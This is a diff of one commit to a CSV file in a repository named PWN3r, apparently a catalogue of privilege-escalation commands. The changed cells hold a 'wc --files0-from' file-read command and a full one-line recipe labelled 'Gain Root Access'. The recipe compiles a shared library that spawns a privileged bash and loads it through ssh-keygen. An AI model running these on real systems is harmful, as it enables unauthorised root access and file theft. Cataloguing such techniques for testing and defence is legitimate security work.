

Before and after one commit to EGYCCAL/PWN3r, a CSV file: PWN3r/data/PWN3r.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/PWN3r/data/PWN3r.csv
+++ b/PWN3r/data/PWN3r.csv
-E1: (empty)
+E1: notes
@@ column A (id) renumbered between rows 41 and 58 @@
-C53 (cmd): ./wc --files0-from '$FILE'
+C53 (cmd): wc --files0-from '$FILE'
-C58 (cmd): cat '#include <unistd.h>
+C58 (cmd): echo '#include <unistd.h>\nvoid C_GetFunctionList()\n{\n\tchar *binaryPath = "/usr/bin/bash";\n\tchar *args[] = {binaryPath ,"-p", NULL};\n\texecv(binaryPath, args);\nreturn ;\n}' > file.c;gcc -c -Wall -Werror -fpic file.c;gcc -shared -o file.so file.o;ssh-keygen -D ./file.so;
-D58 (type): (empty)
+D58 (type): Gain Root Access
-row 58: void C_GetFunctionList()
-row 59: {
-row 60: char *binaryPath = '/usr/bin/bash';
-row 61: char *args[] = {binaryPath | '-p' | NULL};
-row 62: execv(binaryPath | args);
-row 63: return ;
-row 64: }' > file.c
-row 65: $ gcc -c -Wall -Werror -fpic file.c
-row 66: gcc -shared -o file.so file.o
-row 67: ssh-keygen -D ./file.so | gain root access
```
Also changed, not shown: 2 added rows, 1 removed row and 19 edited cells elsewhere in this file, 2 other files.
